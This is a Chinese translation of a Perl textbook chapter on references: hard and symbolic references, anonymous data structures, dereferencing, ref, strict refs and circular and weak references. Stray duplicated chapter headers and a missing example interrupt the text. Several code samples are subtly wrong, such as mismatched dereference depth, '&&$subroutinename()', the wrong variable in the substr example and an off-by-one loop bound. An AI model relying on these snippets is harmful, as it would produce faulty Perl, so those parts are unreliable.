> 提示：除了硬引用，你还可以创建符号引用，甚至可以从 Perl 符号表中获得硬引用。请参阅本章后面的“创建符号引用”和“使用符号表获取引用”主题。

你可以把反斜杠操作符用于标量、数组、哈希、子例程或简单值。例如，我像这样创建一个指向某个值的硬引用：

```
$reference = \"Hello!";
```

你可以通过解引用该引用来访问原始值，如下所示：

```
$reference = \"Hello!";
print $$reference;
```

Hello!

事实上，这种方法可以按任意多层深度工作；例如，你可以用这种方式创建“引用的引用的引用的引用”：

```
$reference4 = \\\"Hello!";
```

然后，你可以对结果进行解引用，如下所示：

```
print $$$$$reference4;
```

Hello!

除了直接值，你还可以用这种方式创建指向变量、数组、哈希、子例程等的引用（注意我把这些引用存储在标量变量中，因为硬引用是标量）：

```
$scalarreference = \$variable1;
$arrayreference  = \@array;
$hashreference   = \%hash;
$codereference   = \&subroutine;
$globreference   = \*name;
```

> **提示：** Perl 中还有其他类型的引用。请参阅本章后面的“使用符号表获取引用”主题，了解如何获取称为 **iorefs** 的 IO 引用。在本主题的末尾，我将介绍一种未写入文档的 Perl 引用类型，称为 **LVALUE** 引用。

现在，让我们来看一些示例。

### 标量引用

我首先创建一个指向标量的引用，如下所示：

```
$variable1 = 100;
$scalarreference = \$variable1;
```

你可以使用 **$** 前缀解引用符来解引用标量引用：

```
$variable1 = 100;
$scalarreference = \$variable1;
print "$$scalarreference\n";
```

100

正如你使用 **$** 来解引用标量，你也可以使用 **@** 等前缀解引用符来解引用数组。

### 数组引用

你可以这样创建指向数组的硬引用（注意硬引用是标量，因此我用标量变量来存储该数组引用）：

```
@array = (1, 2, 3);
$arrayreference = \@array;
```

现在，你可以使用 **@** 前缀解引用符来访问原始数组：

```
@array = (1, 2, 3);
$arrayreference  = \@array;

print "@$arrayreference\n";
```

*1 2 3*

### 哈希引用

在本例中，我创建一个指向哈希的引用：

```
%hash = (that => this);
$hashreference  = \%hash;
```

然后，我通过解引用该引用来访问哈希中的某个值（注意这里我使用 **$** 前缀解引用符，因为我指的是哈希中的单个值，而不是整个哈希）：

```
%hash = (that => this);
$hashreference  = \%hash;
print "$$hashreference{that}\n";
```

*this*

### 子例程引用

创建子例程的硬引用完全在意料之中。这里，我定义了一个名字取得很巧妙的子例程，就叫 **subroutine**：

```
sub subroutine
{
    print "Hello!\n";
}
```

现在，我可以按如下方式获取该子例程的引用（子例程引用也称为 *代码引用*，或简称为 *代码 ref*）：

```
$codereference  = \&subroutine;
```

然后，你可以使用 **&** 前缀解引用符来调用该子例程：

```
&$codereference;
```

*Hello!*

在下一个示例中，我将一个子例程的引用传递给另一个子例程：

```
sub printhello
{
    print "Hello!\n";
}
sub printem
{
    &{@_[0]};
}

printem \&printhello;
```

*Hello!*

### 类型团引用

你可以像创建其他数据类型的引用一样创建类型团的引用。如果你要传递没有显式数据类型的数据（例如文件句柄），这个功能会很有用。（文件处理的详细信息请参阅第13章。）

例如，假设你有一个子例程，它接收一个文件句柄，并向关联的文件打印内容：

```
sub printhello
{
    my $handle = shift;
    print $handle "Hello!\n";
}
```

你可以这样创建一个文件句柄并传递给该子例程：

```
open FILEHANDLE, ">file.tmp" or die "Can't open file.";
```

现在，你可以这样调用该子例程：

```
printhello(FILEHANDLE);
```

然而，这里实际发生的是，你正在把 **FILEHANDLE** 作为一个裸字（bareword）传递；子例程中的代码使用这个名字作为符号引用来操作该文件。如果能把 **FILEHANDLE** 当作带类型的变量处理，代码就会更精确。由于它是文件句柄，**FILEHANDLE** 没有特定的前缀解引用符，但你可以改用它的类型团：

```
printhello(*FILEHANDLE);
```

不过，Perl 实际上建议你传递类型团的引用，而不是类型团本身，这样你仍然可以使用编译指令 **use strict 'refs'**（请参阅本章后面的“禁止符号引用”主题）而不会产生任何错误：

```
printhello(\*FILEHANDLE);
```

你还可以使用语法 ***FILEHANDLE{IO}** 来传递文件句柄。请参阅本章后面的“使用符号表获取引用”主题。

### 引用与自动活化

事实上，如果你在假定某个引用存在的情况下对其进行解引用，该引用就会自动产生，如下例中我使用了此前还不存在的引用 **$reference**：

```
$$reference = 5;
print "$reference\n";
```

5

执行上述代码后，引用 **$reference** 就存在了（这一过程在 Perl 中称为 *自动活化（autovivification）*）：

```
print "$reference\n";
```

*SCALAR(0x8a0b14)*

### 按引用传递

引用最大的用途之一就是向子例程传递数组和哈希。如果直接传递数组或哈希，它们会被一起展平到 **@_** 中。

现在来看一个使用引用的示例。这里，我将两个数组的引用传递给一个子例程，该子例程把两个数组按元素逐个相加（假设它们元素个数相同），并返回结果数组；向子例程传递引用而非数组本身，可以避免这些数组被展平成一个长长的、无法区分的列表：

```
@a = (1, 2, 3);
@b = (4, 5, 6);

sub addem
{
    my ($reference1, $reference2) = @_;
    for ($loop_index = 0; $loop_index <= $#$reference1;
        $loop_index++) {
        $result[$loop_index] = @$reference1[$loop_index] +
            @$reference2[$loop_index];
    }
    return @result;
}

@array = addem (\@a, \@b);
print join (', ', @array);
```

5, 7, 9

| 相关解决方案： | 所在页码： |
| --- | --- |
| 按引用传递 | 312 |
| 按引用返回 | 313 |

### 列表引用

到目前为止，我只获取了指向标量、数组等标准数据项的引用，但你也可以获取指向列表的硬引用，而列表没有固定的数据类型。

对列表取引用实际上会创建一个引用列表；例如，以下两行代码做的是同一件事：

```
@reflist = \($s1, $s2, $s3);
@reflist = (\$s1, \$s2, \$s3);
```

对于像 \(@array) 这样的表达式也是如此，它返回的是指向 **@array** 各内容的引用列表，而不是指向 **@array** 本身的引用（就像 **\(%hash)** 一样）。

对列表取引用在 Perl 中有时会有点出乎意料。例如，对数字列表取引用时，Perl 会先把该列表放在标量上下文中求值——将列表中的最后一个值作为所得标量的值——然后返回指向该标量的引用，如下所示：

```
$ref = \(2, 4, 6);
print $$ref;
```

6

另一方面，对使用范围操作符创建的列表取引用，得到的却是一个数组引用，而不是标量引用，你可以按如下方式使用该数组引用：


## 第九章 参考文献

要诀：处理列表引用时，务必三思而后行。

### 其他引用类型

到目前为止，我们看到的引用并非 Perl 中仅有的引用类型。一种新类型的引用——IO 引用，已经被引入。请参阅本章稍后的主题“使用符号表获取引用”，以了解如何使用 IO 引用，也称为 iorefs。

此外，一种完全未在文档中记载的引用类型，称为 **LVALUE**，可用于不与内存中特定数据项关联的左值，正如你在此类代码中所见：

```
$string = "Hello";
$ref = \substr($a, 0, 1);
print $ref;
```

```
LVALUE(0x8a5950)
```

现在，我们已经完成了对创建硬引用的概述，我们将在下一个主题中开始处理匿名数组时，将它们付诸实践。

### 创建匿名数组的引用

新手程序员出现并说道：“救命！”你问：“怎么了，新手？”“嗯，”新手说，“我需要将一个函数的返回值内插到双引号字符串中。”你问：“直接把返回值连接到字符串的其余部分怎么样？”新手看起来很失望：“我以为你是个 Perl 大师。”“好吧，”你说，“是有办法的；你可以使用匿名数组构造成。”

你可以使用匿名数组构造成——一对方括号——来创建一个无名数组，称为*匿名数组*：

```
$arrayreference = [1, 2, 3];
```

匿名数组构造成返回一个指向匿名数组的*引用*，我在这段代码中将其存储在 **$arrayreference** 中。你可以通过解引用这个数组引用来访问数组中的元素：

```
$arrayreference = [1, 2, 3];
print $$arrayreference[0];
```

```
1
```

你也可以使用箭头运算符来解引用数组引用，如下所示：

```
$arrayreference = [1, 2, 3];
print $arrayreference->[0];
```

```
1
```

有关箭头运算符的更多信息，请参阅本章稍后的主题“使用箭头运算符解引用”。

匿名数组在很多方面都派上用场。例如，你可以使用匿名数组构造成来制作数组的副本，用于破坏性测试而不损害原始数组。看看这段代码；如果你从数组中弹出一个值，该值就消失了：

```
@a = (1, 2, 3);
$s = pop @a;
print "@a\n";
```

```
1 2
```

但是，如果你用匿名数组构造成制作数组的副本，那么被更改的是副本，而不是原始数组：

```
@a = (1, 2, 3);
$s = pop @{[@a]};
print "@a\n";
```

```
1 2 3
```

匿名数组也为 Perl 程序员提供了一个有用的技巧，用于将子程序调用或表达式结果内插到双引号字符串中，如下所示，其中我使用 Perl 的 **uc** 函数将字符串转换为大写：

```
print "@{[uc(hello)]} there.\n";
```

```
HELLO there.
```

Perl 将 **@{}** 构造解析为一个块，当该块被求值时，它会创建一个指向匿名数组的引用。该数组只有一个元素——我放置在那里的表达式或函数调用的结果——当数组的引用被解引用时，该结果就被内插到字符串中。

当你想创建一个指向列表的引用时，你也可以使用匿名数组构造成。在 Perl 中，指向直接列表的引用可能有点问题；例如，这个表达式实际上创建的是指向标量的引用：

```
$ref = \(qw/Now is the time./);    #错误！
```

但是，如果你使用匿名数组构造成，就不会有任何问题：

```
$ref = [qw/Now is the time./];
print "@$ref";
```

```
Now is the time.
```

让我最后说明一点：如果你想使用 **$#array** 语法来查找匿名数组的长度，该怎么办？没问题——只需将指向匿名数组的引用与语法 **$#$ref** 一起使用，如本例所示：

```
$ref = [1, 2, 3];

for ($total = 0, $loop_index = 0; $loop_index <= $#$ref + 1;
    $loop_index++) {
    $total += $$ref[$loop_index];
}

print "Average value = " . $total / ($#$ref + 1);
```

```
Average value = 2
```

### 创建匿名哈希的引用

“好的，”新手程序员说，“现在我明白你可以创建匿名数组了。那匿名哈希呢？”“完全没问题，”你说。

你可以使用匿名哈希构造成——一对花括号——来创建指向无名哈希的引用，称为*匿名哈希*。在这个例子中，我创建一个指向匿名哈希的引用，并将两个键/值对放入该哈希中：

```
$hashref = {
    Name  => Tommie,
    ID => 1234,
};
```

现在，你可以像使用任何其他哈希一样使用匿名哈希——只需确保先解引用它：

```
print $$hashref{Name};
```

```
Tommie
```

你也可以使用箭头运算符来解引用哈希引用，如下所示：

```
$hashreference = {
    Name  => Tommie,
    ID => 1234,
};

print $hashreference->{Name};
```

```
Tommie
```

有关更多信息，请参阅本章稍后的主题“使用箭头运算符解引用”。

如果你想将像 **each** 这样的函数用于匿名数组，该怎么办？没问题——只需像这样解引用指向匿名哈希的引用：

```
$hashref = {
    fruit => apple,
    sandwich => hamburger,
    drink => bubbly,
};

while(($key, $value) = each(%$hashref)) {
    print "$key => $value\n";
}
```

```
drink => bubbly
sandwich => hamburger
fruit => apple
```

### 创建匿名子程序的引用

“嗯，”新手程序员说，“我现在理解了匿名数组和匿名哈希。我还需要了解其他匿名类型吗？”“当然，”你说，“匿名子程序。”“嗯，”新手说，“请告诉我关于它们的事情。”

你可以使用匿名子程序构造成——即单独的 **sub** 关键字——来创建指向无名子程序的引用，称为*匿名子程序*：

```
$codereference = sub {print "Hello!\n"};
```

请注意，你必须在这里添加分号，而如果你使用的是普通的子程序定义则无需这样做。要调用这个子程序，你只需解引用它的引用，并在表达式前加上 **&**：

```
$codereference = sub {print "Hello!\n"};
&$codereference;
```

```
Hello!
```

如何将参数传递给匿名子程序？没问题。只需这样做：

```
$codereference = sub {print shift};
&$codereference("Hello!\n");
```

```
Hello!
```

如果你愿意，你也可以使用箭头运算符进行解引用操作，如下所示：

```
$codereference = sub {print shift};
$codereference->("Hello!\n");
```

```
Hello!
```

你也可以从匿名子程序返回值，如本例所示：

```
$codereference = sub {100};
$s = &$codereference;
print $s;
```

```
100
```

当你需要指定一个将被代码其他部分调用的回调函数时，匿名子程序非常有用，就像你以这种方式抑制 Perl 错误报告一样，通过将一个匿名子程序连接到 Perl %SIG 哈希的 __WARN__ 键：

```
local $SIG{__WARN__} = sub {};
```

匿名子程序也是 Perl 中闭包和函数模板的基础。请参阅本章稍后的主题“在 Perl 中创建持久作用域闭包”和“从函数模板创建函数”。

### 用匿名哈希模拟用户自定义数据类型

良好的编程风格沙皇正在比较 Perl 和 C。“在 C 中，”GPC 说，“我可以使用 C 的 **struct** 语句来创建用户自定义的数据类型。但在 Perl 中，唯一的内置通用数据类型是标量、数组和哈希。”“确实如此，”你说，“但你可以*模拟*用户自定义的数据类型。”“怎么模拟？”GPC 问道。

在 Perl 中，你可以通过一个返回匿名哈希的子程序来模拟用户自定义的数据类型。例如，假设你想定义一个名为 **record** 的新数据类型，它有三个字段：**value**，用于存储数值；**max**，用于存储 **value** 的最大可能值；以及 **min**，用于存储最小可能值。在 C 中，你可以创建一个 **struct** 类型；在 Perl 中，你可以创建一个返回匿名哈希的子程序：

```
sub record
{
    ($value, $max, $min) = @_;
    if ($value >= $min && $value <= $max){
        return {
            value => $value,
            max => $max,
            min => $min,
        };
    } else {
        return;
    }
}
```

要创建一个 **record** 类型的变量，你只需调用名为 **record** 的子程序，并将返回的匿名哈希赋值给一个标量，如下所示（这段代码看起来很像其他语言中初始化用户自定义变量的方式）：

```
$myrecord = record(100, 1000, 10);
```

现在，你可以通过名称引用这个新记录的字段，像这样：

```
$myrecord = record(100, 1000, 10);
print $myrecord->{value};
```

*100*

恭喜！你已经模拟了一种新的复合数据类型。

## 使用符号表获取引用

技术支持的人打来电话。"我们需要的，"他们说，"是一个指向文件句柄的引用。""在 Perl 中做不到，"你回答，"不如用 typeglob 代替？Typeglob，"你解释道，"是一个符号表条目，它引用与特定名称关联的所有数据类型；Perl 会根据你使用它的上下文知道你想要的是文件句柄。""好吧，"他们说，"那不是很危险吗？毕竟，使用 typeglob 可能会影响所有共享相同名称的数据项。""没关系。你可以使用 **\*name{TYPE}** 语法，"你说。

Perl 的符号表是一个哈希，它通过 **SCALAR**、**HASH**、**CODE** 等键来保存包中所有符号的引用。因此，如果你需要某个条目的引用，实际上可以直接从符号表中获取，而无需使用反斜杠运算符。

你可以使用 Perl 中新的 **\*name{TYPE}** 语法来获取存储在符号表中各种类型的引用，如下所示：

```
$scalarreference = *name{SCALAR};
$arrayreference  = *name{ARRAY};
$hashreference   = *name{HASH};
$codereference   = *name{CODE};
$ioreference     = *name{IO};
$globreference   = *name{GLOB};
```

# 第9章 引用

例如，我获取一个名为 **$variable1** 的变量的引用，并使用该引用来显示变量中的值，如下所示：

```
$variable1 = 5;
$scalarreference = *variable1{SCALAR};
print $$scalarreference;
```

5

你也可以通过给解引用赋值来赋予新值：

```
$scalar = 1;
${*$scalar{SCALAR}} = 5;
print $scalar;
```

5

我获取并使用子程序引用的方式如下：

```
sub printem
{
    print "Hello!\n";
}
```

```
$codereference = *printem{CODE};
&$codereference;
```

*Hello!*

**\*name{IO}** 的用法返回一个 IO 句柄——即指向文件句柄、套接字或目录句柄的引用——称为 **ioref**。（你无法使用反斜杠运算符获取 IO 句柄的引用。）在下一个示例中，我使用 **ioref** 向文件写入：

```
open FILEHANDLE, ">file.dat" or die "Couldn't open file.";
$ioref = *FILEHANDLE{IO};
print $ioref "Hello";
close $ioref;
```

你也可以使用 **iorefs** 将文件句柄传递给子程序，如本例所示：

```
sub writefile
{
    my $my_ioref = @_[0];
    print $my_ioref "Hello!";
}
```

```
open FILEHANDLE, ">file.dat" or die "Couldn't open file.";
$ioref = *FILEHANDLE{IO};
writefile $ioref;
close $ioref;
```

另请注意，以这种方式获取引用依赖于你使用一个已存在的符号。如果你尝试使用的符号不存在，在符号表中查找值只会返回一个 **undef** 值——除非该符号是一个标量（这就是 Perl，总得有个例外）。如果你尝试解引用一个不存在的标量，Perl 会为你创建它，如下所示，这是我第一次引用 **$newscalar**（请注意，此技术在未来的 Perl 版本中可能会改变，因此不要依赖它）：

```
${*newscalar{SCALAR}} = 5;
print $newscalar;
```

5

## 解引用

"看看这个，"新手程序员说，"我在我的程序中创建了 2000 个新引用。""那很好，"你说，"有什么问题吗？""嗯，"新手程序员说，"我该怎么*解引用*它们？""没问题，"你微笑着说。

你可以使用前缀解引用符——$、@、% 和 &——来解引用，也可以使用中缀解引用运算符——箭头运算符 ->。请注意，你使用的前缀解引用符类型必须与你正在使用的引用类型匹配；例如，你不能使用标量解引用运算符来解引用一个数组引用。

让我们看一些例子。你可以使用 $ 运算符来解引用一个标量引用——即访问该引用所指向的任何内容。我们已经看到过 $ 运算符工作的例子：

```
$variable1 = 5;
$reference = \$variable1;
print $$reference;
```

5

你也可以解引用多级引用，我们之前也见过：

```
$reference4 = \\"Hello!";
print $$$$reference4;
```

*Hello!*

除了简单的解引用，你还可以在解引用数组引用时添加索引以获取一个标量：

```
@array = (1, 2, 3);
$arrayreference = \@array;

print $$arrayreference[0];
```

1

或者，你可以在解引用哈希时使用键：

```
%hash = (
    Name  => Tommie,
    ID => 1234,
);

$hashreference = \%hash;

print $$hashreference{Name};
```

*Tommie*

或者，你可以在解引用子程序引用时使用参数列表：

```
sub printem
{
    print shift;
}

$codereference = \&printem;
&$codereference ("Hello!\n");
```

*Hello!*

当你解引用其他 Perl 数据类型（如数组）的引用时，你使用适当的前缀解引用符，例如数组用 @（有关更多细节，请参阅本章前面的"创建硬引用"主题）：

```
@a = (1, 2, 3);
$ref = \@a;
```

```
print "@$ref";
```

1 2 3

以下示例展示了如何解引用基本的 Perl 类型：

```
$scalar = $$scalarreference;
@array = @$arrayreference;
%hash = %$hashreference;
&$codereference($argument1, $argument2);
*glob = *$globreference;
```

请注意，你可以用一个返回引用的代码块来替代直接引用。使用代码块时，前面的示例如下所示：

```
$scalar = ${$scalarreference};
@array = @{$arrayreference};
%hash = %{$hashreference};
&{$codereference}($argument1, $argument2);
*glob = *{$globreference};
```

当你有一个返回数组的复杂表达式时，使用这样的代码块会很方便——例如，使用箭头运算符：print "@{$arrayreferences->[1]}"。（有关箭头运算符的更多细节，请参阅本章的"使用箭头运算符解引用"主题。）

还需要注意的一点是，typeglob 可以像引用一样被解引用，因为它保存了与一个名称关联的所有数据类型的引用。当你解引用一个 typeglob 时，你通过使用一个前缀解引用符来指定你想要的数据类型，如下例所示，我想要一个标量：

```
$ref = 5;
@ref = (1, 2, 3);
print "${*ref}\n";
```

5

在这里，我想要一个数组，所以我使用 @ 前缀解引用符（请注意，我可以为标量和数组使用相同的名称；我与 typeglob 一起使用的前缀解引用符将它们区分开来）：

## 快速解决方案

## 9. 引用

# 第9章 引用

```
$ref = 5;
@ref = (1, 2, 3);
print "${*ref}\n";
```

5

```
print "@{*ref}\n";
```

1 2 3

现在我们已经介绍了使用前缀解引用符进行解引用，请参阅下一个主题，了解使用 Perl 中缀解引用运算符——箭头运算符——进行解引用的详细信息。

## 使用箭头运算符解引用

"嘿，"编程正确性沙皇说，"看看这段代码。你在 Perl 中使用了箭头运算符。""我知道，"你说。"你的意思是告诉我，"PCC 说，"你可以在 Perl 中使用中缀解引用符？""当然，"你说。"嗯，"PCC 说，"就像一门真正的编程语言。"

当你处理数组、哈希和子程序时，你可以使用箭头运算符进行便捷的解引用。使用箭头运算符，你可以直接处理引用，而无需先将它们解引用为数组或哈希。当你仅使用引用本身不够时，你会在引用上使用箭头运算符，例如当你想要访问使用数组引用时的特定数组元素，或者向引用的子程序传递参数时。

此示例展示了如何将箭头运算符与数组引用一起使用；在这种情况下，我通过使用该数组的引用来访问数组中的第一个元素：

```
$arrayreference = [1, 2, 3];
print $arrayreference->[0];
```

1

你也可以在使用哈希引用时以这种方式使用箭头运算符（请注意，在这里，我依赖 Perl 的自动生成过程来创建我假设存在的项目，当我开始使用它的引用时）：

```
$hashreference->{key} = "This is the text.";
print $hashreference->{key};
```

This is the text.


## 省略箭头运算符

> "呃，"编程正确性权威说，"像**$array->[2]->[4]**这样的表达式看起来不太像多维数组。""好吧，"你说，"那**$array[2][4]**怎么样？""更好了，"权威说，"你能在Perl中这样做吗？""当然，"你说，"没问题。"

Perl确实支持像**$array[2][4]**这样的结构，它看起来与其他语言中的多维数组完全一样。（注意这里的术语是**$array[2][4]**，*而不是***$array[2, 4]**。）为了支持这种用法，Perl的规则是，在方括号和花括号之间，箭头运算符是可选的。因此，你可以将代码：

```
$dataset[$today]->{prices}->[1234] = "$4999.99";
```

改为：

```
$dataset[$today]{prices}[1234] = "$4999.99";
```

Perl允许你省略箭头运算符，主要是为了让你能使用数组的数组，并使其看起来像其他语言中的多维数组。要了解其工作原理，请查看此示例：

```
@array = (
    [1, 2],
    [3, 4],
);

print $array[1][1];

4
```

那么，在这个二维数组中，哪个数组索引指向行，哪个指向列？它的工作方式是**$array[*行*][*列*]**，正如你在此示例中看到的：

```
@array = (
    [1, 2],
    [3, 4],
);

print $array[0][1];

2

@array = (
    [1, 2],
    [3, 4],
);

print $array[1][0];

3
```

有关多维数组的更多信息，请参阅关于数据结构的第16章。同样值得注意的是，从Perl v5.6.0开始，你现在可以在许多使用引用的子程序调用中省略箭头。例如，**$array[5]->($data)**现在可以写成**$array[5]($data)**。然而，规则还不完全确定——例如，对于像**function(5)->($data)**这样的表达式，箭头仍然是必需的。

| 相关解决方案： | 找到页码： |
|---|---|
| 使用数组的数组（多维数组） | 694 |

## 通过引用传递和返回子程序参数

你正在开发你的程序SuperDuperDataCrunch，想要将两个数组传递给一个子程序。然而，当这两个数组到达子程序时，它们都被展平为@_中的一个长列表。你能以某种方式将多个数组——以及哈希——传递给子程序，并将它们保持为独立的数组吗？

是的，你可以。通常，传递数组或哈希会将其元素*展平*成一个长列表，如果你想发送两个或多个不同的数组或哈希，这就会成为一个问题。为了将它们保留为独立的实体，你可以改为传递数组或哈希的引用。

### 通过引用传递

在这个例子中，我将把这两个数组传递给一个子程序：

```
@a = (1, 2, 3);
@b = (4, 5, 6);
```

假设你想编写一个名为**addem**的子程序，来逐个元素地加法这样的数组（无论数组的长度如何）。为此，你使用数组的引用来调用**addem**：

```
@array = addem (\@a, \@b);
```

在**addem**中，你检索数组的引用，然后以这种方式循环遍历数组，返回一个包含传递数组逐元素和的数组：

```
@a = (1, 2, 3);
@b = (4, 5, 6);

sub addem
{
    my ($ref1, $ref2) = @_;
    while (@$ref1) {
        unshift @result, pop(@$ref1) + pop(@$ref2);
    }
    return @result;
}
```

然后，我这样使用**addem**来加法这两个数组：

```
@a = (1, 2, 3);
@b = (4, 5, 6);

sub addem
{
    my ($ref1, $ref2) = @_;
    while (@$ref1) {
        unshift @result, pop(@$ref1) + pop(@$ref2);
    }
    return @result;
}

@array = addem (\@a, \@b);
print join (', ', @array);

5, 7, 9
```

请注意，通过引用传递也允许你直接引用传递项中的数据，这意味着你可以从被调用的子程序中修改该数据。同样值得注意的是，标量项默认是通过引用传递的。

### 通过引用返回

如果你从一个子程序返回两个数组，它们的值会被展平成一个长列表。但是，如果你返回数组的引用，你可以解引用这些引用来访问原始的数组。

考虑这个例子。在这个例子中，我正在编写一个子程序，它通过引用返回两个数组——也就是说，它返回一个包含两个数组引用的列表：

```
sub getarrays
{
    @a = (1, 2, 3);
    @b = (4, 5, 6);

    return \@a, \@b;
}
```

你可以像这样解引用这些引用来访问数组本身（注意你不应该返回用**local**或**my**声明的局部变量的引用）：

```
($aref, $bref) = getarrays;

print "@$aref\n";
print "@$bref\n";

1 2 3
4 5 6
```

| 相关解决方案： | 找到页码： |
|---|---|
| 通过引用传递 | 312 |
| 通过引用返回 | 313 |

## 使用ref运算符确定引用的类型

"糟糕，"新手程序员说，"我的新子程序可以处理标量或数组引用，这样它就能在标量或列表上下文中工作，但怎么知道我处理的是哪种引用？如果我猜错了，程序就会崩溃并显示像**Not an ARRAY reference**这样的消息。我能怎么办？""完全没问题，"你说，"使用**ref**函数。"

你可以使用**ref**函数来确定引用所指向的项目类型；通常，你可以像这样使用这个函数：

```
ref EXPR
ref
```

如果*EXPR*是一个引用，此函数返回一个真值，否则返回假（0）。如果你不指定*EXPR*，**ref**使用*$\_*。

那么如何确定引用的类型呢？当**ref**返回真值时，其实际返回值表示引用的类型。此函数返回以下值：

- REF
- SCALAR
- ARRAY
- HASH
- CODE
- GLOB

在这个例子中，我使用**ref**来检查一个指向标量的引用：

```
$variable1 = 5;
$scalarref = \$variable1;

print (ref $scalarref);

SCALAR
```

现在，让我给你看另一个例子，这次使用一个子程序：

```
sub printem
{
    print shift;
}

$coderef = \&printem;

print (ref $coderef);

CODE
```

现在，你知道如何确定引用的类型了——只需使用**ref**函数。（如果你熟悉C，你可以把**ref**想象成类似**typeof**运算符的东西。）当你不知道将要处理何种类型的引用时，这个功能很有用，就像在这个例子中，子程序**addem**可以加法并返回通过引用传递的数组或标量：

```
@a = (1, 2, 3);
@b = (4, 5, 6);

sub addem
{
    my ($ref1, $ref2) = @_;
    if (ref($ref1) eq "ARRAY" && ref($ref2) eq "ARRAY") {
        while (@$ref1) {
            unshift @result, pop(@$ref1) + pop(@$ref2);
        }
        return @result;
    } elsif (ref($ref1) eq "SCALAR" && ref($ref2) eq "SCALAR") {
        return $$ref1 + $$ref2;
    }
}

@array = addem (\@a, \@b);

print join (', ', @array);

5, 7, 9
```

事实上，Perl*确实*有除了前面列出的类型之外的另一种引用类型——**LVALUE**类型——尽管它没有被记录在案。不过，正如你在这个例子中看到的，**ref**确实知道这种类型：

```
$string = "Hello";
$ref = \substr($a, 0, 1);
print ref($ref);

LVALUE
```

## 创建符号引用

技术支持的同事又打来电话了。“有人说 Perl 有两种引用类型，”他们说道，“但我们告诉他这是错的。” 他们问：“我们说的没错吧？” 你回答：“不，你们说错了。Perl *确实* 有两种引用类型：硬引用和符号引用。” “太好了，” 他们说，“你可帮大忙了。”

Perl 确实有两种引用类型。硬引用在 Perl 地址空间中保存着项目的实际地址和类型，而符号引用保存的是项目的名称。也就是说，符号引用保存的是一个项目的名称（省略了任何前缀解引用符），而不是指向该项目的直接链接。

你可能在想，没这么简单吧，只是项目的 *名称*？但事实就是这么简单。在接下来的例子中，我创建一个指向名为 **$variable1** 的变量的符号引用，并使用该引用来访问该变量（注意，符号引用只保存变量的名称，省略了标量前缀解引用符 `$`）：

```
$variable1 = 1;
$symbolicreference = "variable1";
```

现在，我可以像解引用硬引用一样解引用这个符号引用；在这个例子中，这意味着使用 **$** 标量前缀解引用符：

```
$variable1 = 1;
$symbolicreference = "variable1";

print $$symbolicreference;
```

1

就这么简单。

就像处理硬引用一样，你也可以对解引用后的符号引用进行赋值：

```
$variable1 = 1;

$symbolicreference = "variable1";
$$symbolicreference = 5;
print "$variable1\n";
```

5

而且，与硬引用一样，如果你以假设项目存在的方式解引用，那么符号引用所引用的、之前不存在的项目就会被创建出来。在这个例子中，**$variable1** 在我引用它之前并不存在：

```
$variablename = "variable1";
$$variablename = 5;
print "$variable1\n";

5
```

你还可以像这样创建指向哈希和数组等项目的符号引用：

```
$arrayname = "array1";
$arrayname->[1] = 5;
print "$array1[1]\n";

5
```

甚至指向子程序：

```
$subroutinename = "subroutine1";

sub subroutine1
{
    print "Hello!\n";
}

&&$subroutinename();

Hello!
```

符号引用只能引用当前包中的全局或局部变量。特别要注意的是，词法变量（用 **my** 声明的）不在符号表中，所以你不能使用它们，就像这个例子中，被引用变量的值被打印为空字符串：

```
my $variable1 = 10;
$variablename = "variable1";           #会出问题。
print "The value is $$variablename\n"; #不能在这里使用符号引用
#上述代码导致如下不完整的结果：

The value is
```

在接下来的例子中，我让用户输入一个变量的名称，并将该名称视为一个符号引用，然后在程序运行时显示该变量的实际值：

```
$value = 5;

while(<>) {
    chomp;
    s/\$(\S+)/${$1}/;
    print;
}
```

如果用户输入，

> The value = $value in this case.

那么程序会显示：

> The value = 5 in this case.

## 禁用符号引用

编程正确性专员（PCC）询问关于符号引用的问题。“这个嘛，” 你说，“在 Perl 中，你可以将数据项的名称当作引用来使用。” “我不喜欢这样，” PCC 说，“在 C 语言里不能这么做。我该怎么禁用它们？” “嗯，” 你说，“有办法。”

```
use strict 'refs';
```

当你使用这个 pragma 时，Perl 在当前块的剩余部分将只允许硬引用。这个例子展示了如果你尝试使用符号引用会发生什么：

```
use strict 'refs';

$variable = 100;
$variablename = "variable";
print $$variablename;
```

```
Can't use string ("variable") as a SCALAR ref while "strict refs"
in use at symbolic.pl line 6.
```

如果你已经禁用了符号引用，但想在内部块中允许使用它们，你可以使用 **no strict 'refs'** pragma：

```
use strict 'refs';

$variable = 100;
{
    no strict 'refs';
    $variablename = "variable";
    print $$variablename;
}

100
```

## 避免循环引用

Perl 使用计数方案来跟踪数据项。每次数据项获得一个名称或引用，其计数就会增加一。当项目的名称和引用计数归零时，Perl 会释放其内存。

然而，如果你有两个处于同一作用域级别的项目，它们以循环方式相互引用——即项目 *a* 持有项目 *b* 的引用，项目 *b* 持有项目 *a* 的引用——那么这些项目的名称和引用计数就无法归零，即使它们离开作用域也是如此。这意味着这些项目将一直占用内存，直到程序结束。

考虑这个例子。在这个例子中，我通过让每个数据项存储对另一个数据项的引用，创建了一对循环标量引用和循环数组引用：

```
sub makerefs
{
    my $scalar1 = \$scalar2;
    my $scalar2 = \$scalar1;

    my @array1 = (\@array2);
    my @array2 = (\@array1);
}

makerefs;
```

即使这些数据项离开作用域（例如，当子程序调用返回时），它们的引用计数仍将保持非零，因此它们的内存在程序结束之前永远不会被释放；它们被困在内存中，占据着宝贵的空间。

教训是：要意识到循环引用的存在。要解决这个问题，你可以在数据结构离开作用域之前遍历它们，并使用 **undef** 函数显式地消除潜在的循环引用。或者，你可以看看下一节。

## 使用弱引用

新手程序员叹了口气说：“我遇到了循环引用的问题。我就是搞不定。” “嗯，” 你说，“你试过 *弱* 引用吗？” “那是什么？” 新手程序员问道。

在上一节中，我们讨论了循环引用，以及它们的问题在于引用计数永远不会归零，因此内存永远不会被释放。处理循环引用的通常方法是消除它们。

然而，从 Perl 5.6.0 开始，你也可以用另一种方式处理循环引用——你可以让引用变弱，这意味着它们不会被计入引用计数。当它们离开作用域时，就没有问题了——因为它们的引用计数为零，它们可以被安全地删除。要使用弱引用，你需要使用来自 CPAN 的 WeakRef 包。

## 表现得像哈希的数组：使用数组引用作为哈希引用

“好吧，” 编程正确性专员说，“你在 Perl 中用引用可以做很多在 C 语言中用指针可以做的事情。有没有 Perl 能做而 C 语言不能做的事情？” “有啊，” 你说，“例如，你可以把数组引用当作哈希引用来用。” PCC 问：“这有什么用？” “嗯，” 你说，“这意味着在某些情况下，你可以将数组同时当作数组和哈希来处理。” PCC 很感兴趣。

从 Perl 5.005 版本开始，你可以将数组引用用作哈希引用，至少在一定程度上是这样。因此，你可以使用符号名称来引用数组元素。

